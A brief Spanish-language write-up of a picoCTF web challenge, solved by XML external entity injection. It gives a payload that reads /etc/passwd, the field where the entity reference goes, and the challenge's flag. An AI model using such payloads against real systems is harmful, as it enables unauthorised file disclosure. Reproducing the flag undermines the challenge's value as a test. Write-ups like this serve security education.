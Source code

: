 ## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:60581/)
## Solución
Se visita el sitio web y se aprecia que se cargan cosas a partir de botones
Con ayuda de burpsuite y buscando acerca de XML external entity Injection se obtiene que se puede usar 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd"> ] >
```

Se cambia el ID por &xee

```
picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```
